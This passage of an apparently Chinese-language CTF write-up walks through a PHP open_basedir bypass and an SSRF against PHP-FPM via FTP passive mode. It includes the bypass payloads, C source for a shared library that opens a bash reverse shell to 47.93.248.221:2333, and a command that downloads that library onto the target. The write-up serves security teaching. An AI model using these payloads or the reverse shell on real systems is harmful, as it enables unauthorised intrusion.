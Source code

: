```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/nginx/sites-enabled/default');
```

![image-20211108142558952](images/11.png)

发现fastcgi的端口开放在9001

我们可以通过SSRF来攻击FPM，但是受限于这道题的disable_functions，我们无法直接SSRF，但是可以利用`file_put_contents()`的一个特性来实现SSRF：

`file_put_contents`在使用 ftp 协议时, 会将 data 的内容上传到 ftp 服务器, 由于`pasv`模式下, 服务器的地址和端口是可控, 我们可以将地址和端口指到`127.0.0.1:9001`.同时由于 ftp 的特性,不会有任何的多余内容, 类似`gopher`协议, 会将`data`原封不动的发给`127.0.0.1:9001`, 完美符合攻击fastcgi(FPM)的要求.

写.so扩展

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.93.248.221/2333 0>&1'");
}
```

编译一下

```
gcc 1.c -fPIC -shared -o 1.so
```

将生成的1.so上传到靶机的/tmp目录下

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');copy('http://47.93.248.221/1.so','/tmp/1.so');
```

看到已经上传成功了

![image-20211108170451080](images/12.png)
